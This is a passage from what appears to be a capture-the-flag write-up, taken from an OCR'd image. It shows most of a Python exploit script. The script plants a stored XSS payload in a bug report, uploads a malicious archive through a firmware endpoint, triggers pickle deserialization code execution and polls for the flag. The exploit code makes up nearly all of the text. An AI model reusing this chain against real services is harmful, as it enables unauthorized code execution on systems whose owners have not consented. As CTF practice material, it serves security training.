 ```python
const b64Data="%s"
const byteCharacters = atob(b64Data);
const byteArrays = [];
const sliceSize=512;
const contentType='multipart/form-data';
for (let offset = 0; offset < byteCharacters.length; offset += sliceSize) {
const slice = byteCharacters.slice(offset, offset + sliceSize);

const byteNumbers = new Array(slice.length);
for (let i = 0; i < slice.length; i++) {
byteNumbers[i] = slice.charCodeAt(i);
}

const byteArray = new Uint8Array(byteNumbers);
byteArrays.push(byteArray);
}

const blob = new Blob(byteArrays, {type: contentType});

var formData = new FormData();
formData.append('file', blob, 'rh0x01.tar.gz');

var xhr = new XMLHttpRequest();
xhr.open('POST','/api/firmware/upload', true);
xhr.send(formData);
</script>
""" % b64_file

print('[+] Sending bug report with XSS payload..')
requests.post(
    f'{hostURL}/api/firmware/report',
    cookies={"session": cookie},
    json={'module_id': 1, 'issue': xss_payload}
)

print('[+] Triggering Pickle rce..')
requests.get(f'{hostURL}/dashboard',cookies={"session": sid})

flag = ''
while not flag:
    flag_resp = requests.get(f'{hostURL}/static/flag.txt')
    if flag_resp.status_code == 200:
        flag = flag_resp.text
    time.sleep(5)

print(f'[+] Flag: {flag}')
```

# Flag

N/A